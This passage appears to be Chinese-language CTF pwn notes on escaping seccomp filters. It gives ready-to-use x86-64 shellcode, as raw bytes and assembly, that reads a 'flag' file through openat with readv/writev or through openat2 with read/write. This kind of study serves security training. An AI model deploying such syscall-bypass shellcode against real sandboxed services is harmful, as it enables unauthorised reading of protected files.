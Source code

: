 #### openat readv writev
> 也可以用，将sendfile变成了读写两个系统调用，同时利用栈作为缓冲区
```python
b'H\xb8/flag\x00\x00\x00PH\x89\xe6H1\xd2H\xc7\xc0\x01\x01\x00\x00\x0f\x05H\x89\xc7h\x00\x01\x00\x00H\x89\xe3H\x81\xeb\x08\x01\x00\x00SH\x89\xe6H\xc7\xc2\x01\x00\x00\x00H\xc7\xc0\x13\x00\x00\x00\x0f\x05H\xc7\xc7\x01\x00\x00\x00H\x89\xe6H\xc7\xc2\x01\x00\x00\x00H\xc7\xc0\x14\x00\x00\x00\x0f\x05'
```
```x86asm
mov rax,0x0067616c662f
push rax
mov rsi,rsp
xor rdx,rdx
mov rax,257
syscall
mov rdi,rax
push 0x100 # 读入大小由这个控制
mov rbx,rsp
sub rbx,0x108 # 为读入大小加8
push rbx
mov rsi,rsp
mov rdx,1
mov rax,19
syscall
mov rdi,1
mov rsi,rsp
mov rdx,1
mov rax,20
syscall
```

#### openat2 read write
> open,openat都被禁了，用openat2，但要注意openat2系统调用是在kernel5.6版本引入的，因此ubuntu20.04及以下的版本是不支持该系统调用的
```python
b'H\xc7\xc0flagPH1\xffH\x83\xefdH\x89\xe6j\x00j\x00j\x00H\x89\xe2I\xc7\xc2\x18\x00\x00\x00h\xb5\x01\x00\x00X\x0f\x05H\x89\xc7H\x89\xe6\xba\x00\x01\x00\x001\xc0\x0f\x05\xbf\x01\x00\x00\x00H\x89\xe6j\x01X\x0f\x05'
```
```x86asm
mov rax, 0x67616c66 # 路径
push rax
xor rdi, rdi
sub rdi, 100
mov rsi, rsp
push 0
push 0
push 0
mov rdx, rsp
mov r10, 0x18
push SYS_openat2 # pwntools预定义的系统调用号,也可以手动查
pop rax
syscall
mov rdi,rax
mov rsi,rsp
mov edx,0x100
xor eax,eax
syscall
mov edi,1
mov rsi,rsp
push 1
pop rax
syscall
```
